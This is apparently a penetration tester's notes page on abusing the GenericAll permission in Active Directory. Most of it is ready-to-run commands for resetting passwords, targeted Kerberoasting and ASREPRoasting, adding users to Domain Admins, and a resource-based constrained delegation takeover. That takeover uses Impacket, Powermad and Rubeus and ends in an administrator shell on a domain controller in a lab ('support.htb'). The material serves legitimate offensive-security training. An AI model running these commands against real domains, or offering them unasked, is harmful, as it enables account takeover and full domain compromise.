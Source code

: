 # GenericAll Abuse



## Introduction

Active Directory users are defined by securable objects known as ACL/ACE's. Active Directory Discretionary Access Control Lists (DACLs) and Acccess Control Entries (ACEs). These define what permissions the user has and can or cannot do  (i.e change account name, reset password, etc).&#x20;

<mark style="color:yellow;">**GenericAll is the "God Mode" of the object permissions.**</mark>

Here are some AD object permissions we're interested in.

* **GenericAll** - full rights to the object (add users to a group or reset user's password - <mark style="color:yellow;">God mode</mark>).
* **GenericWrite** - update object's attributes (i.e logon script)
* **WriteOwner** - change object owner to attacker controlled user take over the object
* **WriteDACL** - modify object's ACEs and give attacker full control right over the object
* **AllExtendedRights** - ability to add user to a group or reset password
* **ForceChangePassword** - ability to change user's password
* **Self (Self-Membership)** - ability to add yourself to a group



## Abusing GenericAll

There are three types of objects that can a user can have GenericAll permissions. User, Group, and Computer.

To view ACL/ACE permissions we can use tools like **`PowerView`** and **`Bloodhound`**.



### GenericAll on User

*   **Change password**: You could just change the password of that user with

    ```powershell
    net user <username> <password> /domain
    ```
*   **Targeted Kerberoasting**: You could make the user **kerberoastable** setting an **SPN** on the account, kerberoast it and attempt to crack offline:

    ```powershell
    # Set SPN
    Set-DomainObject -Credential $creds -Identity <username> -Set @{serviceprincipalname="fake/NOTHING"}
    # Get Hash
    .\Rubeus.exe kerberoast /user:<username> /nowrap
    # Clean SPN
    Set-DomainObject -Credential $creds -Identity <username> -Clear serviceprincipalname -Verbose

    # You can also use the tool https://github.com/ShutdownRepo/targetedKerberoast 
    # to get hashes of one or all the users
    python3 targetedKerberoast.py -domain.local -u <username> -p password -v
    ```
*   **Targeted ASREPRoasting**: You could make the user **ASREPRoastable** by **disabling** **preauthentication** and then ASREProast it.

    ```powershell
    Set-DomainObject -Identity <username> -XOR @{UserAccountControl=4194304}
    ```

### GenericAll on Group

We can add a user we control to the vulnerable group.

```powershell
net group "domain admins" <username> /add /domain
```



### GenericAll on Computer

A common attack with generic all on a computer object is to add a fake computer to the domain.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If enumerating and we see a user has GenericAll permission on a computer we know we full control.

We can perform a <mark style="color:yellow;">**Kerberos Resourced Based Constrained Delegation attack**</mark>: computer takover. This attack allows us to impersonate a specific user (Administrator).





## Abusing GenericAll Computer Object Kerberoast Ticket Abuse

###

### Also known as: "Resource Based Constrained Delegation Attack"

We will be following this guide [https://github.com/tothi/rbcd-attack](https://github.com/tothi/rbcd-attack)

### Toshi's "Impacket" method.

### Add Computer to Domain

We'll first need to add a new machine. We can add a computer to the domain with impacket-addcomputer.

Below are some useful commands.

<pre class="language-powershell"><code class="lang-powershell"><strong># Add a computer to the domain via domain credentials
</strong>impacket-addcomputer domain.com/user -dc-ip 192.168.x.x -computer-name 'ATTACK$' -computer-pass 'AttackerPC1!'

#Add a computer account via hashed credentials
impacket-addcomputer domain.com/user -dc-ip 192.168.x.x -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'ATTACK$' -computer-pass 'AttackerPC1!'
<strong>
</strong><strong># Add a computer account via domain credentials
</strong>impacket-addcomputer -computer-name 'COMPUTER$' -computer-pass 'SomePassword' -dc-host $DomainController -domain-netbios $DOMAIN 'DOMAIN\user:password'

# Modify a computer account password
impacket-addcomputer -computer-name 'COMPUTER$' -computer-pass 'SomePassword' -dc-host $DomainController -no-add 'DOMAIN\user:password'

# Delete a computer account
impacket-addcomputer -computer-name 'COMPUTER$' -dc-host $DomainController -delete 'DOMAIN\user:password'
</code></pre>

### Toshi's rbcd attack

{% embed url="https://github.com/tothi/rbcd-attack" %}

#### Creating the fake computer

Using addcomputer.py example from Impacket let's create a fake computer (called `evilcomputer`):

```
addcomputer.py -computer-name 'evilcomputer$' -computer-pass ev1lP@sS -dc-ip 192.168.33.203 ecorp.local/test:ohW9Lie0
```

#### Modifying delegation rights

Implemented the script [rbcd.py](https://github.com/tothi/rbcd-attack/blob/master/rbcd.py) found here in the repo which adds the related security descriptor of the newly created EVILCOMPUTER to the `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the target computer.

```
./rbcd.py -f EVILCOMPUTER -t WEB -dc-ip 192.168.33.203 ecorp\\test:ohW9Lie0
```

The script uses heavily the Python classes in the `ntlmrelayx.py` Impacket example. For help and an example call the script without options.

#### Getting the impersonated service ticket

Now everything is ready for abusing the Constrained Delegation by an S4U2Self query and get an impersonated Service Ticket for the target computer. With `getST.py` Impacket example script:

```
getST.py -spn cifs/WEB.ecorp.local -impersonate admin -dc-ip 192.168.33.203 ecorp.local/EVILCOMPUTER$:ev1lP@sS
```

The above command fetches a CIFS Service Ticket on behalf of the targetted domain user `admin` and stores it in the file `admin.ccache`.

After adding the file path to the KRB5CCNAME variable the ticket is usable for Kerberos clients.

```
export KRB5CCNAME=`pwd`/admin.ccache
klist
```





### Server Side Method

Here is another way to abuse GenericAll on a computer group

```powershell
# -------- On Server Side
# Upload tools
upload /home/user/Tools/Powermad/Powermad.ps1 pm.ps1
upload /home/user/Tools/Ghostpack-CompiledBinaries/Rubeus.exe r.exe

# Import PowerMad
Import-Module ./pm.ps1

# Set variables
Set-Variable -Name "FakePC" -Value "FAKE01"
Set-Variable -Name "targetComputer" -Value "DC"

# With Powermad, Add the new fake computer object to AD.
New-MachineAccount -MachineAccount (Get-Variable -Name "FakePC").Value -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

# With Built-in AD modules, give the new fake computer object the Constrained Delegation privilege.
Set-ADComputer (Get-Variable -Name "targetComputer").Value -PrincipalsAllowedToDelegateToAccount ((Get-Variable -Name "FakePC").Value + '$')

# With Built-in AD modules, check that the last command worked.
Get-ADComputer (Get-Variable -Name "targetComputer").Value -Properties PrincipalsAllowedToDelegateToAccount
```



<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```powershell
# With Rubeus, generate the new fake computer object password hashes. 
#  Since we created the computer object with the password 123456 we will need those hashes
#  for the next step.
./r.exe hash /password:123456 /user:FAKE01$ /domain:support.htb
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```powershell
# -------- On Attck Box Side.
# Using getTGT from Impacket, generate a ccached TGT and used KERB5CCNAME pass the ccahe file for the requested service. 
#   If you are getting errors, "cd ~/impacket/", "python3 -m pip install ."
/home/user/Tools/impacket/examples/getST.py support.htb/FAKE01 -dc-ip dc.support.htb -impersonate administrator -spn http/dc.support.htb -aesKey 35CE465C01BC1577DE3410452165E5244779C17B64E6D89459C1EC3C8DAA362B

# Set local variable of KERB5CCNAME to pass the ccahe TGT file for the requested service.
export KRB5CCNAME=administrator.ccache

# Use smbexec.py to connect with the TGT we just made to the server as the user administrator 
#  over SMB protocol.
smbexec.py support.htb/administrator@dc.support.htb -no-pass -k
```
